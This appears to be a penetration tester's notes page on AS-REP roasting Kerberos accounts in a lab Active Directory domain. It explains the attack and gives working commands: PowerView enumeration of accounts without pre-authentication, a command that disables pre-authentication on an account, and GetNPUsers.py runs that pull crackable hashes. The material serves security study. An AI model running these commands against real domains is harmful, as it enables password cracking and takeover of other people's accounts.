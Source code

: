 ## what is it ?
When `pre-authentication` isn't required, we can request a TGT of any user, this TGT come with other message that contain `TGS session key` that is needed to use the TGT but this message is encrypted using user password so we need to crack this message to get the `TGS session key` and be able to use the `TGT`. success depends on the user having a relatively weak password.

`AS-REPRoasting` is similar to `Kerberoasting` but involves attacking `AS-REP` instead of `TGS-REP`.

---
## Targeted AS-REPRoasting
We can perform AS-REP rosting even if it require pre-authentication, Suppose an attacker has `GenericWrite` or `GenericAll` permissions over an account. In that case, they can enable this attribute and obtain the `AS_REP` ticket for offline cracking to recover the account's password before disabling it again.

---
## Commands
### windows
#### PowerShell Enumeration of accounts with DONT_REQ_PREAUTH
```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainUser -UACFilter DONT_REQ_PREAUTH
objectsid             : S-1-5-21-1870146311-1183348186-593267556-1109                                                   samaccountname        : amber.smith
codepage              : 0                                                                                               samaccounttype        : USER_OBJECT                                                                                     accountexpires        : NEVER
countrycode           : 0 
whenchanged           : 4/20/2023 9:24:40 PM                                                                            instancetype          : 4 
usncreated            : 12626 
objectguid            : 982f19c6-78d1-458a-a148-3bd0eb5b4bd6 
lastlogoff            : 12/31/1600 6:00:00 PM                                                                           objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL                                  dscorepropagationdata : 1/1/1601 12:00:00 AM 
lastlogon             : 4/20/2023 4:57:03 PM 
badpwdcount           : 0 
cn                    : amber.smith                                                                                     useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH 
```
#### Set DONT_REQ_PREAUTH with PowerView
```powershell
Set-DomainObject -Identity userName -XOR @{useraccountcontrol=4194304} -Verbose
```

#### Rubeus
[[Rubeus]]

---
### Linux

#### AS-REPRoastable Users Enumeration
```sh
GetNPUsers.py inlanefreight.local/pixis
```
Now that we have a list of vulnerable accounts, we can request their hashes in Hashcat's format by adding the `-request` parameter to our command.
```sh
GetNPUsers.py inlanefreight.local/pixis -request           
```

#### Finding Vulnerable Accounts without Authentication
If we do not have credentials on the domain but have a username list, we can still find accounts that do not require pre-authentication. Using `GetNPUsers.py`, we can search for each account inside the file containing the user list to identify if there is a least one account vulnerable to this attack:
```
GetNPUsers.py INLANEFREIGHT/ -dc-ip 10.129.205.35 -usersfile /tmp/users.txt -format hashcat -outputfile /tmp/hashes.txt -no-pass
```